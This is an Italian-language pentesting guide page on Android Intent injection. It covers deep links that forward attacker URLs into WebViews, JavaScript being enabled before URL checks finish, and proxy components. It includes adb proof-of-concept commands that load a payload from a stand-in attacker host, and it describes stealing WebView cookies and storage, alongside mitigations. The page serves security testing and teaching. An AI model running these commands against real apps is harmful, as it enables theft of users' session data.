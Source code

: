 # Intent Injection

{{#include ../../banners/hacktricks-training.md}}

L'iniezione di intent sfrutta componenti che accettano Intent o dati controllati dall'attaccante che vengono successivamente convertiti in Intent. Due modelli molto comuni durante i pentest delle app Android sono:

- Passare extras creati a mano ad Activities/Services/BroadcastReceivers esportati che vengono successivamente inoltrati a componenti privilegiati, non esportati.
- Attivare link profondi VIEW/BROWSABLE esportati che inoltrano URL controllati dall'attaccante in WebView interne o altri sink sensibili.

## Deep links → WebView sink (iniezione di parametri URL)

Se un'app espone un link profondo con uno schema personalizzato come:
```text
myscheme://com.example.app/web?url=<attacker_url>
```
e l'Activity ricevente inoltra il parametro di query `url` in un WebView, puoi costringere l'app a rendere contenuti remoti arbitrari nel proprio contesto WebView.

PoC tramite adb:
```bash
# Implicit VIEW intent
adb shell am start -a android.intent.action.VIEW \
-d "myscheme://com.example.app/web?url=https://attacker.tld/payload.html"

# Or explicitly target an Activity
adb shell am start -n com.example/.MainActivity -a android.intent.action.VIEW \
-d "myscheme://com.example.app/web?url=https://attacker.tld/payload.html"
```
Impatto
- HTML/JS viene eseguito all'interno del profilo WebView dell'app.
- Se JavaScript è abilitato (per impostazione predefinita o a causa di controlli errati), puoi enumerare/utilizzare qualsiasi oggetto `@JavascriptInterface` esposto, rubare i cookie/local storage di WebView e pivotare.

Vedi anche:

{{#ref}}
webview-attacks.md
{{#endref}}

## Bug di ordine dei controlli che abilita JavaScript

Un bug ricorrente è l'abilitazione di JavaScript (o altre impostazioni permissive di WebView) prima che la lista di autorizzazione/verifica dell'URL finale sia completata. Se i helper iniziali accettano il tuo deep link e il WebView è configurato per primo, il tuo caricamento finale avviene con JavaScript già abilitato anche se i controlli successivi sono difettosi o troppo tardi.

Cosa cercare nel codice decompilato:
- Molti helper che analizzano/scompongono/ripristinano l'URL in modo diverso (normalizzazione incoerente).
- Chiamate a `getSettings().setJavaScriptEnabled(true)` prima dell'ultimo controllo della lista di autorizzazione host/percorso.
- Un pipeline come: analizza → convalida parziale → configura WebView → verifica finale → loadUrl.

Mitigazioni
- Canonizza una volta e convalida rigorosamente; fallisci in modo chiuso.
- Abilita JavaScript solo dopo che tutti i controlli sono superati e giusto prima di caricare contenuti fidati.
- Evita di esporre ponti a origini non fidate.

## Altri classici primitivi di iniezione Intent

- startActivity/sendBroadcast utilizzando extra `Intent` forniti dall'attaccante che vengono successivamente riparsati (`Intent.parseUri(...)`) ed eseguiti.
- Componenti proxy esportati che inoltrano Intents a componenti sensibili non esportati senza controlli di autorizzazione.

## Riferimenti

- [Android – Access to app-protected components](https://blog.oversecured.com/Android-Access-to-app-protected-components/)
- [Samsung S24 Exploit Chain Pwn2Own 2024 Walkthrough](https://medium.com/@happyjester80/samsung-s24-exploit-chain-pwn2own-2024-walkthrough-c7a3da9a7a26)
- [Pwn2Own Ireland 2024 – Samsung S24 attack chain (whitepaper)](https://maliciouserection.com/2025/05/13/pwn2own-ireland-2024-samsung-s24-attack-chain-whitepaper.html)
- [Demonstration video](https://www.youtube.com/watch?v=LAIr2laU-So)

{{#include ../../banners/hacktricks-training.md}}
